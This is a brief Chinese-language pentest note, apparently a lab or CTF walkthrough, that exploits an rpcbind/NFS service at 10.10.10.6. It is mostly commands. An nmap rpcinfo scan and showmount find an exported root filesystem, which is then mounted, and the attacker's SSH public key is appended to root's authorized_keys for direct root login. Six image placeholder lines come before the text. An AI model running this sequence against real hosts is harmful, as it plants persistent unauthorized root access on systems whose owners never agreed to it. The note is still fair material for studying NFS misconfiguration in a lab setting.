






# 111_rpcbind

使用nmap扫描

> nmap -v -p 111 -sV -T4 --version-all --script=rpcinfo 10.10.10.6

找到nfs的服务了

使用showmount查看挂载的目录

>  showmount -e 10.10.10.6

在攻击机里创建ssh密钥

> ssh-keygen

创建挂载点

> mkdir /tmp/root

> mount -t nfs 10.10.10.6:/ /tmp/root

把密钥添加到靶机的.ssh目录下的authorized_keys文件里

> cat ~/.ssh/id_rsa.pub >> /tmp/root/root/.ssh/authorized_keys

ssh连接

直接连接成功